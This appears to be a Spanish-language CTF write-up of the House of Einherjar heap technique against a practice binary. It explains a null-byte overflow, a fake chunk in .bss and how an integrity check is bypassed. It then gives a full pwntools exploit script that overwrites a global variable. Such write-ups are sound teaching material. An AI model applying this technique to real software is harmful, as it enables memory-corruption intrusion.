 # House of Einherjar
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'../.glibc/glibc_2.28_no-tcache'
    Stripped:   No
    Debuginfo:  Yes
```

Si existe la posibilidad de obtener una shell en este reto la desconozco. El objetivo de este reto fue sobreescribir la variable global `target`.

Nos dan la direccion del heap y podemos provocar un heap overflow reservando chunks no alineados a 16 bits. Por ejemplo reservar 0x88 bytes hace que `malloc` lo alinee y acabe reservando un chunk de `0x90`, `0x10` de metadatos, el resto para los datos introducidos.

Tambien cuando editamos el contenido de un chunk el programa añade '\0' al final, provocando un desbordamiento extra de un NULL BYTE.

Usando la tecnica homonima, estos son los pasos para reservar un chunk en `.bss` y sobreescribir `target`:
1. Creamos un chunk falso en la variable `user`, con `prev_size`, `size` = 0 y con `fd`, `bk` = 0x602010 (direccion de `user`).
2. Creamos dos chunks: `A`, del tamaño permitido, y `B`, de tamaño `0xf8`.
3. Editamos A y con el heap overflow sobreescribimos `B->prev_size` con la distancia entre `B` y el chunk falso de `user`. De paso el NULL BYTE sobreescribe el bit `PREV_INUSE` en `B->size`.
4. Liberamos B, provocando que se consolide con el chunk falso.
```
  /* La verificacion de integridad  chunksize (p) != prev_size (next_chunk (p))) es esquivada porque:
   chunksize(p) = 0
   next_chunk(p) = p + chunksize(p) = p
   prev_size(next_chunk(p)) = prev_size(p) = 0
 */
```
5. Reservamos un chunk `C` que acaba en la seccion `.bss`, en la direccion de `user`.
6. Sobreescribimos target con el overflow.

## Exploit

```py
from pwn import *

r = process("./house_of_einherjar")

def malloc(size):
    r.sendlineafter(b">",b"1")
    r.sendlineafter(b"size:",str(size).encode())
def free(idx):
    r.sendlineafter(b">",b"2")
    r.sendlineafter(b"index:",str(idx).encode())
def edit(idx,data):
    r.sendlineafter(b">",b"3")
    r.sendlineafter(b"index:",str(idx).encode())
    r.sendafter(b"data:",data)

# Create fake chunk A
fake_chunk = p64(0) + p64(0) + p64(0x602010)*2
r.sendafter(b"username:",fake_chunk)

# chunksize (p) == prev_size (next_chunk (p)))

# Leak heap address
r.recvuntil(b"@ ")
heap = int(r.recv(10),16)

# Alloc B and C
# malloc alignment allocs a 0x90 chunk with 0x10 bytes for metadata
# and only 0x80 bytes for data, we can overflow C->prev_size
malloc(0x88)
malloc(0xf8)

fake_size = (heap + 0x90) - 0x602010

# Overflow C with B
# It adds a null byte to C->size and unset it's PREV_INUSE bit
edit(0,b"A"*0x80 + p64(fake_size))

# Call unlink_chunk, consolidating A and C
free(1)

# av->top = 0x602010 (user)

# Allocate a new chunk and overwrite target
malloc(0x100)
edit(2,p64(0) * 2 + b"_s1s1fo_")

r.interactive()
```


